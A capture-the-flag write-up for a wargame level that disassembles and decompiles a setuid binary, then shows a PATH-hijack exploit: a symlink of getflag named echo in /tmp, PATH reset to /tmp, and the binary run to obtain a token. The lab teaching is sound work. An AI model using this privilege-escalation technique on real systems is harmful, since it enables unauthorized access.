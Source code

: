 # LEVEL 03

When we run the executable level03 in the machine (it doesn't accept any arguments)
it only outputs "exploit me".

We can use GDB to try to decompile the executable level03 by doing:

```
disassemble main
```

We then
We get the following output:
Dump of assembler code for function main:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     and    $0xfffffff0,%esp
   0x080484aa <+6>:     sub    $0x20,%esp
   0x080484ad <+9>:     call   0x80483a0 <getegid@plt>
   0x080484b2 <+14>:    mov    %eax,0x18(%esp)
   0x080484b6 <+18>:    call   0x8048390 <geteuid@plt>
   0x080484bb <+23>:    mov    %eax,0x1c(%esp)
   0x080484bf <+27>:    mov    0x18(%esp),%eax
   0x080484c3 <+31>:    mov    %eax,0x8(%esp)
   0x080484c7 <+35>:    mov    0x18(%esp),%eax
   0x080484cb <+39>:    mov    %eax,0x4(%esp)
   0x080484cf <+43>:    mov    0x18(%esp),%eax
   0x080484d3 <+47>:    mov    %eax,(%esp)
   0x080484d6 <+50>:    call   0x80483e0 <setresgid@plt>
   0x080484db <+55>:    mov    0x1c(%esp),%eax
   0x080484df <+59>:    mov    %eax,0x8(%esp)
   0x080484e3 <+63>:    mov    0x1c(%esp),%eax
   0x080484e7 <+67>:    mov    %eax,0x4(%esp)
   0x080484eb <+71>:    mov    0x1c(%esp),%eax
   0x080484ef <+75>:    mov    %eax,(%esp)
   0x080484f2 <+78>:    call   0x8048380 <setresuid@plt>
   0x080484f7 <+83>:    movl   $0x80485e0,(%esp)
   0x080484fe <+90>:    call   0x80483b0 <system@plt>
   0x08048503 <+95>:    leave  
---Type <return> to continue, or q <return> to quit---
   0x08048504 <+96>:    ret

   We can try 

   https://dogbolt.org/

   int main(int argc,char **argv,char **envp){
    __gid_t __rgid;
    __uid_t __ruid;
    int iVar1;
    gid_t gid;
    uid_t uid;
    
    __rgid = getegid(); // returns the effective group ID of the calling process
    __ruid = geteuid(); // returns the effective user ID of the calling process.
    setresgid(__rgid,__rgid,__rgid); 
    setresuid(__ruid,__ruid,__ruid); // sets the real user ID, the effective user ID, and the saved set-user-ID of the calling process.
    iVar1 = system("/usr/bin/env echo Exploit me"); //calls the echo builtin located in usr/bin/env
    return iVar1;
}

> Env guessed where echo is based on the PATH env variable
> echo $PATH
> If we change the PATH env variable, we can control whats executed
> Switch the echo builtin with ./getflag that we need to execute
> easiest way to copy a file and change is to create a symbolic link  and then we change our environment variable PATH so that it has /tmp in it. :

ln -s /bin/getflag /tmp/echo
export PATH=/tmp
./level03
*getthetoken*
export PATH=/bin
